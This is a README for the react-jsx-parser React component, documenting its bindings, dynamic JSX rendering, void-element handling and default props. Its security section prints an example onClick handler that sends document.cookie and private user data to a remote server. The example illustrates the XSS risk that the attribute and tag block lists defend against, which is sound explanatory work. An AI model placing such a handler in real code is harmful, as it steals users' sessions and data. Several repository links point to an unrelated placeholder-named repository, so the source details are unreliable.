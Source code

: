 # react-jsx-parser [![CircleCI][circle-ci-badge]](https://circleci.com/gh/taktikorg/dolorem-ducimus) [![Version][npm-version]][npm-link] [![NPM Downloads][npm-downloads]][npm-link] [![License][npm-license]](https://github.com/taktikorg/dolorem-ducimus/blob/master/LICENSE)

[circle-ci-badge]: https://circleci.com/gh/taktikorg/dolorem-ducimus.svg?style=svg
[npm-version]: https://img.shields.io/npm/v/react-jsx-parser.svg
[npm-downloads]: https://img.shields.io/npm/dt/react-jsx-parser.svg
[npm-license]: https://img.shields.io/npm/l/react-jsx-parser.svg
[npm-link]: https://www.npmjs.com/package/react-jsx-parser

A React component which can parse JSX and output rendered React Components.

## Basic Usage - Injecting JSX as a String
```javascript
import React from 'react'
import JsxParser from 'react-jsx-parser'
import Library from 'some-library-of-components'

class InjectableComponent extends Component {
  static defaultProps = {
    eventHandler: () => {}
  }
  // ... inner workings of InjectableComponent
}

const MyComponent = () => (
  <JsxParser
    bindings={{
      foo: 'bar',
      myEventHandler: () => { /* ... do stuff ... */ },
    }}
    components={{ InjectableComponent, Library }}
    jsx={`
      <h1>Header</h1>
      <InjectableComponent eventHandler={myEventHandler} truthyProp />
      <Library.SomeComponent someProp={foo} calc={1 + 1} stringProp="foo" />
      <Library.DataFetcher>((data) => <div>{data.name}</div>)</Library.DataFetcher>
    `}
  />
)
```

Because `InjectableComponent` is passed into the `JsxParser.props.components` prop, it is treated as a known element
type, and created using `React.createElement(...)` when parsed out of the JSX. You can also pass in a whole collection
of components, as shown by the `Library` binding, and then access the individual items with `LibraryName.ComponentName`.

Finally, a note about property bindings. The `JsxParser` can handle several types of binding:
 - implicit `true` bindings, such as `<InjectableComponent truthyProp />` (equivalent to `truthyProp={true}`)
 - string-value binding, such as `stringProp="foo"`
 - expression-binding, such as `calc={1 + 1}`
 - named-value binding, such as `eventHandler={myEventHandler}` (note that this requires a match in `bindings`)
 - simple [single statement arrow expressions](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/Arrow_functions#basic_syntax) `(item) => <p>{item.name}</p>`

The component **_does not_** support inline function declarations, such as:
 - `onClick={function (event) { /* do stuff */ }}`, or
 - `onKeyPress={event => { /* do stuff */}}`
 - Function or arrow functions with bodies `() => { return <p>This will not work</p> }`

This is to prevent inadvertent XSS attack vectors. Since the primary use of this component is to allow JSX to be stored server-side, and then late-interpreted at the client-side, this restriction prevents a malicious user from stealing info by executing a situation like:
```javascript
<JsxParser
  bindings={{ userInfo: { private: 'data' } }}
  onClick={() => {
    fetch('/some/remote/server', {
      body: JSON.stringify({ cookies: document.cookie, userInfo })
    })
  }}
/>
```

## Advanced Usage - Injecting Dynamic JSX
```javascript
// Import desired set of components
import { ComponentA, ComponentB } from 'somePackage/Components'
import ComponentC from 'somePackage/ComponentC'
import ComponentD from 'somePackage/ComponentD'
...
// Load an HTML or XML fragment from a remote API
const dynamicHtml = loadRemoteData()
...
// Within your component's render method, bind these components and the fragment as props
<JsxParser
  bindings={bindings}
  components={{ ComponentA, ComponentB, ComponentC, ComponentD }}
  jsx={dynamicHtml}
/>
```

Any `ComponentA`, `ComponentB`, `ComponentC` or `ComponentD` tags in the dynamically loaded XML/HTML fragment will be rendered as React components. Any unrecognized tags will be handled by `React`.

_Note:_ Non-standard tags may throw errors and warnings, but will typically be rendered in a reasonable way.

## Advanced Usage - HTML & Self-Closing Tags
When rendering HTML, standards-adherent editors will render `img`, `hr`, `br`, and other
[void elements](https://www.w3.org/TR/2011/WD-html-markup-20110113/syntax.html#void-elements) with no trailing `/>`. While this is valid HTML, it is _not_ valid JSX. If you wish to opt-in to a more HTML-like parsing style, set the `autoCloseVoidElements` prop to `true`.

### Example:
```jsx
// <hr> has no closing tag, which is valid HTML, but not valid JSX
<JsxParser jsx="<hr><div className='foo'>Foo</div>" />
// Renders: null

// <hr></hr> is invalid HTML, but valid JSX
<JsxParser jsx="<hr></hr><div className='foo'>Foo</div>" />
// Renders: <hr><div class='foo'>Foo</div>

// This is valid HTML, and the `autoCloseVoidElements` prop allows it to render
<JsxParser autoCloseVoidElements jsx="<hr><div className='foo'>Foo</div>" />
// Renders: <hr><div class='foo'>Foo</div>

// This would work in a browser, but will no longer parse with `autoCloseVoidElements`
<JsxParser autoCloseVoidElements jsx="<hr></hr><div className='foo'>Foo</div>" />
// Renders: null
```

## PropTypes / Settings
```javascript
JsxParser.defaultProps = {
  allowUnknownElements: true, // by default, allow unrecognized elements
  // if false, unrecognized elements like <foo> are omitted and reported via onError

  autoCloseVoidElements: false, // by default, unclosed void elements will not parse. See examples

  bindings: {}, // by default, do not add any additional bindings

  blacklistedAttrs: [/^on.+/i], // default: removes `on*` attributes (onClick, onChange, etc.)
  // any attribute name which matches any of these RegExps will be omitted entirely

  blacklistedTags:  ['script'], // by default, removes all <script> tags

  className: '', // space-delimited classes to add to wrapper (ignored if renderInWrapper=false)

  components: {}, // an object map of component tag-names to their definitions - see above
  // components must extend React.Component, React.PureComponent, or be a Function

  componentsOnly: false, // non-component HTML tags are allowed by default, omitted if true

  disableFragments: false, // if true, React <Fragment />s will not be used.
  // Note: This introduces subtle errors with regard to white-space, and is provided only for
  // backward compatibility with React 15.x

  disableKeyGeneration: false, // if true, rendering will not automatically generate `key` props.
  // Note: This may result in the "Child elements should have a unique 'key' prop " React error.

  jsx: '', // the jsx string to be parsed & rendered

  onError: () => {}, // if specified, any rendering errors are reported via this method

  showWarnings: false, // if true showWarnings, rendering errors are output with console.warn

  renderError: undefined, // if specified, this function can be used to render errors as a fallback

  renderInWrapper: true, // if false, the HTML output will have no <div> wrapper

  renderUnrecognized: tagName => null, // unrecognized tags are rendered via this method
}
```

## Older Browser Support

If your application needs to support older browsers, like `IE11`, import from `react-jsx-parser/dist/es5/react-jsx-parser.min.js`,
which transpiles the `acorn-jsx` dependency down to ES5, and also adds additional polyfill support for code used in this package.

**Note**: <u>not</u> recommended for implementations which only support modern browsers, as the ES5 version is roughly 30% larger.
